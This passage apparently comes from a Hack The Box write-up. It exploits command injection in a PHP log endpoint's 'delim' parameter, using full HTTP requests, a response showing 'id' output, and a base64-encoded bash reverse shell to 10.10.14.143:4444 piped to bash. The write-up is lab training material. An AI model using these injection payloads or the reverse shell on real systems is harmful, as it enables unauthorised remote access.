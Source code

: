 I could clearly get command execution by passing a `;` and the command to run in the delimiter. The code was not sending back the result of the command execution. But it was returning the content of the file `/var/www/out.log`. I just had to redirect my output to that file to see it.

I started by sending a simple command to make sure I could get it executed on the server.

```http
POST /logs.php HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://target.htb
Connection: close
Referer: http://target.htb/file_logs.php
Cookie: PHPSESSID=j0634fsb72q4v9q2rsfjfielij
Upgrade-Insecure-Requests: 1

delim=space;id > /var/www/out.log
```

The response contained the result of running `id`.

```http
HTTP/1.1 200 OK
Date: Sun, 28 Aug 2022 11:33:08 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: 0
Cache-Control: must-revalidate
Pragma: public
Content-Description: File Transfer
Content-Disposition: attachment; filename="out.log"
Content-Length: 54
Connection: close
Content-Type: application/octet-stream

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now that I knew I had a command execution, I base64 encoded a command to get a reverse shell.


```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.143/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDQgMD4mMSAK
```

I launched netcat listener and sent my command to the server.

```http
POST /logs.php HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://target.htb
Connection: close
Referer: http://target.htb/file_logs.php
Cookie: PHPSESSID=j0634fsb72q4v9q2rsfjfielij
Upgrade-Insecure-Requests: 1

delim=space;echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDQgMD4mMSAK | base64 -d | bash
```
